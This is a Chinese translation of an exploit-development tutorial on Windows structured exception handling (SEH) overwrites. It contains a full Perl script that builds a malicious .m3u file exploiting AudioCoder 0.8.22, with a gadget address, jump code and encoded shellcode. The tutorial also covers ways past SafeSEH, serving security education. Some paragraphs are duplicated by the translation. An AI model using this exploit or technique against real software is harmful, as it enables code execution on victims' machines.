


#### 翻译自 [这里](http://www.securitysift.com/windows-exploit-development-part-6-seh-exploits/)，转发请标注原作者
2022-6-10
***

### 序言

到目前为止，本教程系列中介绍的缓冲区溢出漏洞通常涉及某种形式的直接 EIP 覆盖，使用 CALL 或 JMP 指令来访问我们的 shellcode。今天我们将看看一种使用 Windows 结构化异常处理 (SEH) 的不同方法。

在我开始解释 Windows 结构化异常处理的基本机制（因为它是在 x86 32 位环境中实现的）之前，值得一提的是，我故意省略了一些细节（终止处理与异常处理、展开、向量异常处理等）。 ) 专注于基本概念并提供足够的背景信息来理解 SEH 在漏洞利用编写中的使用。我鼓励您使用我在本文末尾提供的参考资料阅读这些额外的细节。

#### 什么是SEH

结构化异常处理 (SEH) 是一种 Windows 机制，用于一致地处理硬件和软件异常。 有编程经验的人可能熟悉异常处理结构，它通常表示为 try/except 或 try/catch 代码块。出于讨论的目的，我将引用 Microsoft 对 C/C++ 语言的扩展，如下所示

```c++
__try {
    // the block of code to try (aka the "guarded body")
    ...
}
__except (exception filter) {
    // the code to run in the event of an exception (aka the "exception handler)
    ...
}
```

这个概念非常简单，尝试执行一段代码，如果发生错误/异常，则执行“except”块（也称为异常处理程序）所说的任何事情。异常处理程序只不过是另一个代码块，它告诉系统在发生异常时应该做什么。换句话说，它处理异常。

异常处理程序可能由应用程序（通过上述 try/except 构造）或操作系统本身实现。由于有许多不同类型的错误（除以零、越界等），因此可以有许多相应的异常处理程序。 无论异常处理程序是在哪里定义的（应用程序与操作系统）或它旨在处理什么类型的异常，所有处理程序都由 Windows SEH 通过一组指定的数据结构和函数集中和一致地管理，我将在下一节对此进行介绍。

### SEH的主要内容

对于每个异常处理程序，都有一个 Exception Registration Record 结构，如下所示

```c++
typedef struct _EXCEPTION_REGISTRATION_RECORD { 
    struct _EXCEPTION_REGISTRATION_RECORD *Next; 
    PEXCEPTION_ROUTINE Handler; 
} EXCEPTION_REGISTRATION_RECORD, *PEXCEPTION_REGISTRATION_RECORD;
```

这些注册记录被链接在一起形成一个链表。注册记录中的第一个字段 (*Next) 是指向 SEH 链中下一个 _EXCEPTION_REGISTRATION_RECORD 的指针。换句话说，您可以使用 *Next 地址从上到下导航 SEH 链。第二个字段（Handler）是一个指向异常处理函数的指针，如下所示

```c++
EXCEPTION_DISPOSITION 
__cdecl _except_handler(
    struct _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```

第一个函数参数是一个指向 _EXCEPTION_RECORD 结构的指针。正如您在下面看到的，此结构包含有关给定异常的信息，包括异常代码、异常地址和参数数量。

```c++
typedef struct _EXCEPTION_RECORD {
        DWORD ExceptionCode;
        DWORD ExceptionFlags;
        struct _EXCEPTION_RECORD *ExceptionRecord;
        PVOID ExceptionAddress;
        DWORD NumberParameters;
        DWORD ExceptionInformation[EXCEPTION_MAXIMUM_PARAMETERS];
} EXCEPTION_RECORD;
```

_except_handler 函数使用此信息（除了在 ContextRecord 参数中提供的寄存器数据）来确定异常是否可以由当前异常处理程序处理，或者是否需要移动到下一个注册记录。EstablisherFrame 参数也起着重要的作用，我们稍后会谈到。

_except_handler 函数返回的 EXCEPTION_DISPOSITION 值告诉操作系统是否成功处理了异常（返回值 ExceptionContinueExecution），或者它是否必须继续寻找另一个处理程序（返回值 ExceptionContinueSearch）。

那么Windows SEH在尝试处理异常时如何使用注册记录、处理函数和异常记录结构呢？当发生异常时，操作系统从链的顶部开始检查第一个 EXCEPTION_REGISTRATION_RECORD Handler 函数，看它是否可以处理给定的错误（基于 ExceptionRecord 和 ContextRecord 参数中传递的信息）。如果没有，它将移动到下一个 EXCEPTION_REGISTRATION_RECORD（使用Next 指向的地址）。它将继续以这种方式向下移动，直到找到适当的异常处理函数。 Windows 在链的末尾放置一个默认/通用异常处理程序，以帮助确保以某种方式处理异常（由 FFFFFFFF 表示），此时您可能会看到 “……遇到问题并需要关闭” 信息。

每个线程都有自己的 SEH 链。操作系统知道如何通过引用位于 FS:[0] 的线程信息/环境块 (TIB/TEB) 的 ExceptionList 地址来定位该链的开始。这是 Windows SEH 链的基本图，带有 _EXCEPTION_REGISTRATION_RECORD 的简化版本：


这绝不是对 SEH 或其所有数据结构的完整概述，但它应该为您提供足够的细节来理解基本概念。现在让我们在一个实际应用的背景下看一下 SEH。

### SEH 例子

面我们以 Windows Media Player 为例来看看 SEH 是如何在实际中实现的。回想一下本漏洞利用系列的第 1 部分，您可以在 WinDbg 中使用 !teb 命令查看 TEB 的内容。以下是正在运行的进程线程的快照，以及用于 Windows Media Player 的相关 TEB 之一（在 Win XP SP3 机器上）：


注意 ExceptionList 地址。这是该线程的 SEH 链的起始地址（您的可能会有所不同）。换句话说，这个地址指向 SEH 链中的第一个 _EXCEPTION_REGISTRATION_RECORD。让我们看看如何在 Immunity Debugger 中找到相同的信息。 将 Windows Media Player 连接到 Immunity 后，您可以按 Alt+M 查看内存模块。在此示例中，我将双击在 WinDbg (00013C20) 中检查的同一线程。


这将打开该线程的 Dump 窗口，您会注意到它是 TEB。就像在 WinDbg 中一样，您会看到 SEH 链的起点位于 02B6FF5C。 另一种查找当前线程的 SEH 链起点的方法是 dump FS:[0]，如下所示：

这将打开该线程的 Dump 窗口，您会注意到它是 TEB。就像在 WinDbg 中一样，您会看到 SEH 链的起点位于 02B6FF5C。

另一种查找当前线程的 SEH 链起点的方法是转储 FS:[0]，如下所示


同样，请注意第一个地址是 02B6FF5C，它又指向 02B6FFDC（SEH 链的开始）。 在 Immunity 中查看 SEH 链的最后也是最简单的方法是按 Alt+S


毫不奇怪，链中的第一个条目是 02B6FF5C。这个 SEH 链窗口还清楚地显示了这个线程有两个 _EXCEPTION_REGISTRATION_RECORD（SEH 链长度 = 2），它们都指向同一个异常处理函数。 如果您查看此线程的堆栈（朝向底部），您将能够看到此 SEH 链，从 02B6FF5C 开始。


同样，您可以在 SEH 链中看到两条 registration records ，第一个是位于 02B6FF5C 的链的开头，第二个是位于 02B6FFDC 的默认处理程序（如 FFFFFFFF / “End of SEH Chain“ ）。

### 攻击SEH

现在您已经了解了 Windows SEH 的工作原理以及如何在 Immunity 中定位 SEH 链，让我们看看如何利用它来制造可靠的漏洞利用。对于这个例子，我将使用本漏洞利用系列第 1 部分中的基本 C 程序。


出于演示目的，我使用带有 /Zi 开关（用于调试）和 /GS- 开关（用于删除堆栈 cookie 保护）的 MS Visual Studio 命令行对其进行了编译。使用参数为 10 A (stack_demo.exe AAAAAAAAAA) 运行程序，您可以看到默认情况下 SEH 链中有两个条目（这两个条目都没有在应用程序代码本身中明确定义）。

出于演示目的，我使用带有 /Zi 参数（用于调试）和 /GS 参数（用于删除栈 cookie 保护）的 MS Visual Studio 命令行对其进行了编译。使用 10 A 的参数运行程序（stack_demo.exe AAAAAAAAAA），您可以看到默认情况下 SEH 链中有两个条目（这两个条目都没有在应用程序代码本身中明确定义）


然后在栈中


为了进一步说明 Windows SEH 如何集中管理所有异常（无论它们在哪里定义），我将在此示例程序中添加一个 try/except 块并将 SEH 链延长。


添加的 __except 块没有任何异常处理代码，但正如您在下一个屏幕截图中看到的那样，新的异常处理程序已添加到 SEH 链的顶部。


如果您想逐步了解如何将这个新条目添加到 SEH 链中，请在调用函数 foo() 之前和之后设置几个断点。由于这是在启用调试的情况下编译的，因此您可以在 Immunity 中轻松地执行此操作，方法是转到 View->Source Files 并单击可执行文件的名称（在我的例子中，我将更新的版本命名为 stack_demo_seh.exe）


选择要启用断点的行并按 F2。在我的例子中，我在调用 foo() 之前放置了一个（以查看添加的新 SEH registration record），并在调用 strcpy 之前放置了一个（这样我可以逐步将 arg 写入栈）。


在到达断点并单步执行 strcpy（使用 F7）后，您应该会在前两个条目上方的堆栈中看到新的 _EXCEPTION_REGISTRATION_RECORD。


让我借此机会突出显示堆栈中的其他一些条目（注意：您不会在此处看到栈 cookie，因为我在编译时使用了 /GS）


如您所见，局部变量被写入 SEH 记录正上方的栈中。在这种情况下，我们的 10 个字符参数适合分配的缓冲区，但是因为没有使用 strcpy() 检查边界，如果我们要使其更大，我们可以覆盖 Next SEH 和 SEH 的值。

让我们尝试传递 28 个 A 作为参数（您可以通过 File -> Open 在 Immunity 中传递参数）。


查看 SEH chain (Alt + S)，你应当看到这个。


显然我们已经覆盖了我们的 SEH 链，但仅此一项还不足以导致可行的漏洞利用。除了控制 Next SEH 和 SEH 的值，我们还需要触发一个异常，以便操作系统调用异常处理程序。究竟什么会触发异常（以及调用哪个处理程序）将取决于应用程序，但通常只需继续写入超出栈末尾以生成导致操作系统调用 SEH 链的错误就足够了。

通过这个示例程序，我们知道 28 个 A 足以覆盖 Next SEH 和 SEH。这次让我们将参数的总长度设为 500，而不是使用所有的 A，让我们使用字母 B 来表示字符位置 21-28。长度应该足以将栈覆盖到产生异常的程度，我们应该看到 Next SEH 和 SEH 被 B 覆盖。


然后观察 SEH chain 应该是这样的


这表明我们可以控制 _EXCEPTION_REGISTRATION_RECORD 的 Next SEH 和 SEH 值，并且我们可以强制应用程序触发异常。如果您将异常传递给应用程序 (Shift + F9)，您应该会看到以下内容。


通过覆盖 SEH（发生异常时调用），我们控制了 EIP。但是我们如何使用它来执行shellcode呢？答案在于我们之前检查过的 _except_handler 函数的第二个参数。

```c++
EXCEPTION_DISPOSITION 
__cdecl except_handler(
    _EXCEPTION_RECORD *ExceptionRecord,
    oid EstablisherFrame,
    struct _CONTEXT *ContextRecord,
    void * DispatcherContext
);
```

当调用此异常处理函数时，EstablisherFrame 值被放置在 ESP+8 的堆栈中。这个EstablisherFrame 值实际上是我们已经建立的_EXCEPTION_REGISTRATION_RECORD 的地址，它以Next SEH 开始（也在我们的控制之下）。

因此，当发生异常并调用异常处理程序 (SEH) 时，它的值将放入 EIP。由于我们可以控制 SEH，我们现在可以控制 EIP 和应用程序的执行流程。我们还知道，EstablisherFrame（以 Next SEH 开头）位于 ESP+8，因此如果我们可以将该值加载到 EIP 中，我们就可以继续控制应用程序的执行流程。

这是执行异常处理程序时 EIP 和栈的屏幕截图。


那么我们如何将EstablisherFrame/_EXCEPTION_REGISTRATION_RECORD 地址加载到EIP中呢？有几种可能的方法，其中最常见的方法是用 POP+POP+RET 指令的地址覆盖 SEH，以将 ESP+8 加载到 EIP。

以上面的截图为例，EIP 将被 POP+POP+RET 序列的地址覆盖，而不是 42424242。这会将前两个条目从堆栈中弹出，并且返回指令会将 0012FF5C（_EXCEPTION_REGISTRATION_RECORD 的地址）加载到 EIP 中。由于我们可以控制该地址的内容，因此我们可以执行我们选择的代码。 

由于这个基本的演示代码没有可用的 pop + pop + ret 指令，让我们将注意力转向现实世界的易受攻击的应用程序，并将我们所涵盖的内容应用于开发有效的 SEH 漏洞。

### 开发一个 SEH 攻击

在我们开始编写任何代码之前，让我们先看一下 SEH 漏洞利用的典型构造。最基本的 SEH 漏洞利用缓冲区将按如下方式构建


它将以一些填充/垃圾开始，以将缓冲区偏移到 Next SEH 和 SEH 的覆盖位置。请记住，触发异常时，SEH 将被加载到 EIP 中。由于它将包含 POP+POP+RET 指令，位于 ESP+8 的 _EXCEPTION_REGISTRATION_RECORD 的地址将被加载到 EIP 中。然后程序执行将立即跳转到 Next SEH 并执行驻留在那里的任何指令。在这个基本的 SEH 漏洞利用中，通常会从 Next SEH 开始控制栈上的所有内容。这意味着我们可以在 SEH 之后立即放置我们的 shellcode。我们遇到的问题是，当程序流被重定向到 Next SEH 时，它将再次运行到 SEH，除非我们能找到解决方法。为此，我们可以在 Next SEH 中放置一个短跳转，它将跳过 SEH 并进入我们的 shellcode。

回顾一下，我们的基本 SEH 漏洞利用需要以下内容： 

1.  填充 Next SEH 的偏移量 
2. jump 代码为了让 Next SEH 跳过 SEH
3. 可用的 POP + POP + RET 指令
4. shellcode

现在让我们看看这个， 对于这个 SEH Exploit 练习，我将使用我为 AudioCoder 0.8.22 发布的一个漏洞利用。您可以直接从以下链接下载易受攻击的[应用程序](http://www.exploit-db.com/exploits/29309/)，我将从头开始，这样你就可以一步一步地看到这个漏洞是如何构建的。

安装/启动 AudioCoder 后，attach Immunity Debugger 并运行 (F9)。此特定程序容易受到缓冲区溢出的影响，因为它在读取 .m3u 文件时不执行任何边界检查。要验证此漏洞，首先创建一个包含 5000 个字符的 Metasploit 模板的 .m3u 文件。回想一下在 Kali 中创建此模板的命令是 ../metasploit-framework/tools/pattern_create.rb 5000。您可以将模板复制到 perl 脚本中并按如下方式创建 m3u 文件（不要忘记“http:// /”)


当您在 AudioCoder 中打开生成的 .m3u 文件时，您应该会在 Immunity 中看到类似于以下内容的内容


如您所见，我们已经用 Metasploit 模板覆盖了 EIP 以及我们的 SEH Registration Record 。您可以检查 SEH 链 (Alt+S) 进行验证


请记住，我们可以控制 EIP，因为我们已经覆盖了 SEH。我们也知道崩溃时，ESP+8 指向 Next SEH。因此，如果我们可以用 POP+POP+RET 指令的地址覆盖 SEH，我们可以将执行流程重定向到 Next SEH。有几种方法可以在 Immunity 中搜索可用的 POP+POP+RET 指令。首先，您可以右键单击反汇编窗口（左上角）并选择 “Search for” –>  “All sequences in all modules” 。要使用此方法，您需要指出你希望包含在 POP 指令中的寄存器。例如


这种特殊的寄存器选择会返回许多可供选择的结果。请记住，驻留在应用程序（相对于操作系统）模块中的指令对于利用可移植性而言是首选。


另一种查找POP+POP+RET指令地址的方法是使用mona plugin for Immunity (!mona seh)


使用 mona 的好处是它还可以识别哪些模块已使用 SafeSEH 编译，这种保护可以消除基于 SEH 的漏洞利用的可行性。我将在下一节中详细解释 SafeSEH，但现在请记住避免使用它编译的模块。幸运的是，AudioCoder 有很多非 SafeSEH 模块可供选择。

一旦我们选择了一个可用的 POP+POP+RET 指令（我选择了 6601228E，它是来自 AudioCoder/libiconv-2.dll 的 POP EDI + POP EBP + RET 指令），接下来我们需要做的就是找出偏移量下一个 SEH。您可能还记得之前的教程，有几种方法可以做到这一点。您可以使用 pattern_offset.rb 来确定 7A41327A 的偏移量。


你也可以使用 mona 



所以我们有我们的 POP+POP+RET 地址和偏移量。现在我们只需要一些 Next SEH 和我们的 Shellcode 的 jump 代码。

Next SEH 需要的跳转代码只需要让我们越过 SEH 的 4 个字节。如果您还记得本系列的第 4 部分，操作码 EB 表示一个短的向前跳转。例如 \xeb\x14 是一个 20 字节的向前跳转。只要我们在 shellcode 前加上一些 NOP，我们就可以越过 SEH。

所以，我们有

- 偏移量 (757)

- Next SEH 的短跳转（\xeb\x14\x90\x90 — NOP 是 4 字节空间中 2 字节的填充物） 

- SEH 的 pop pop ret (0x6601228e) 

- shellcode（出于演示目的，我将使用 calc.exe）

```perl
#!/usr/bin/perl

###############################################################################
# Exploit Title: AudioCoder 0.8.22 (.m3u) – SEH Buffer Overflow
# Date: 10-18-2013
# Exploit Author: Mike Czumak (T_v3rn1x) — @SecuritySift
# Vulnerable Software: AudioCoder 0.8.22 (http://www.mediacoderhq.com/audio/)
# Software Link: http://www.fosshub.com/download/AudioCoder-0.8.22.5506.exe
# Version: 0.8.22.5506
# Tested On: Windows XP SP3
# Creates an .m3u file to exploit basic seh bof
###############################################################################

my $buffsize = 5000; # sets buffer size for consistent sized payload
my $junk = “http://” . (“\x90” x 757); # offset to seh overwrite
my $nseh = “\xeb\x14\x90\x90”; # overwrite next seh with jmp instruction (20 bytes)
my $seh = pack(‘V’,0x6601228e); #overwrite seh w/ pop edi pop ebp ret from AudioCoder\libiconv-2.dll
my $nops = “\x90” x 20;

# Calc.exe payload [size 227]
# msfpayload windows/exec CMD=calc.exe R |
# msfencode -e x86/shikata_ga_nai -c 1 -b ‘\x00\x0a\x0d\xff’
my $shell = “\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9” .
“\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92” .
“\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84” .
“\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e” .
“\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1” .
“\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27” .
“\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb” .
“\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b” .
“\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2” .
“\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37” .
“\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3” .
“\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef” .
“\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb” .
“\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf” .
“\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83” .
“\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3” .
“\x9a\xca\xc0”;

my $sploit = $junk.$nseh.$seh.$nops.$shell; # build sploit portion of buffer
my $fill = “\x43” x ($buffsize – (length($sploit))); # fill remainder of buffer
my $buffer = $sploit.$fill; # final buffer

# write the exploit buffer to file
my $file = “audiocoder.m3u”;
open(FILE, “>$file”);
print FILE $buffer;
close(FILE);
print “Exploit file created [” . $file . “]\n”;
print “Buffer size: ” . length($buffer) . “\n”;
```

打开 m3u 文件


### POP+POP+RET 的替代品

如果您找不到可用的 POP+POP+RET 指令，您可能能够以不同的方式访问您的 shellcode。再看一下我们之前的基本 C 程序示例中的以下屏幕截图


ESP+8 不仅指向我们的 Next SEH 地址，ESP+14、ESP+1c 等也是如此。这为我们提供了一些额外的选项来调用该地址。

#### popad

其中一个选项是我在之前的教程中介绍过的 popad 指令。回想一下，popad 按以下顺序从堆栈中弹出前八个值并进入寄存器：EDI、ESI、EBP、EBX、EDX、ECX 和 EAX（ESP 被丢弃）。因此，一条 popad 指令会将 Next SEH 的地址留给 EBP、EDX 和 EAX 。要在我们的 SEH 漏洞利用中使用这种方法，我们不仅需要找到一个 popad 指令，而且还需要一个紧跟其后还有 JMP/CALL EBP、JMP/CALL EDX 或 JMP/CALL EAX 指令的指令。AudioCoder 应用程序没有这样的指令。

#### JMP/CALL DWORD PTR [ESP/EBP + 偏移]

如果没有可用的 popad 或 POP+POP+RET 指令，您可以尝试通过查找到 ESP 偏移量的 JMP 或 CALL 指令（+8、+14、+1c、+2c）直接跳转到堆栈上的下一个 SEH等）或 EBP（+c、+24、+30 等）。同样，AudioCoder 应用程序没有任何可用的说明来演示此技术。 这两个选项的关键在于，就像使用 POP+POP+RET 一样，您必须从未使用 SafeSEH 编译的模块中选择指令，否则漏洞利用将失败。您还需要避免使用包含空字节的地址。

#### SEH 攻击保护

在不详细介绍堆栈 cookie 和 ASLR 等保护措施的情况下，我想简要介绍两种专门针对 SEH 漏洞利用的保护措施：SafeSEH 和 SEHOP。本节只会让您熟悉这些保护的最基本概念，因此我鼓励您对这些主题进行更多研究。w

indows XP SP2 引入了 SafeSEH 保护机制，在该机制中，已验证的异常处理程序被注册并存储在一个表中。在执行给定的异常处理程序之前检查此表中的地址，以确保它被认为是“安全的”。因此，如果使用 SafeSEH 编译的模块，SEH record 的 POP+POP+RET 地址不会出现在表中，并且 SEH 漏洞利用将失败。

只要 SEH 覆盖地址（例如 POP+POP+RET）来自使用 SafeSEH 编译的模块，SafeSEH 就可以有效地防止基于 SEH 的攻击。好消息（从可利用性的角度来看）是默认情况下应用程序模块通常不使用 SafeSEH 编译。即使大多数是，由应用程序加载的任何未使用 SafeSEH 编译的模块都可以用于您的 SEH 覆盖。您可以使用 mona 轻松找到此类模块。



或者，您可以使用 !mona SEH 命令，该命令默认情况下只会查看未使用 SafeSEH 编译的模块。 绕过 SafeSEH 的关键是找到未使用该选项编译的模块。

#### 结构化异常处理覆盖保护 (SEHOP)

如前所述，SafeSEH 的缺点之一是它需要更改和重建/编译可执行文件。 SEHOP 不需要更改代码，而是在运行时工作，并在调用异常处理程序之前验证线程的异常处理程序链是否完整（可以从上到下导航）。因此，覆盖 SEH 地址会破坏链并触发 SEHOP，从而使 SEH 漏洞利用尝试无效。 SEHOP 通过将自定义记录添加到 SEH 链的末尾来实现此目的。在执行异常处理程序之前，操作系统确保可以通过从上到下遍历链来访问此自定义记录。

SEHOP 是在 Windows Vista SP1 中引入的，可用于后续的桌面和服务器版本。它在 Windows Server 版本（从 2008 年开始）上默认启用，在桌面版本上默认禁用。 EMET 还提供 SEHOP 保护。
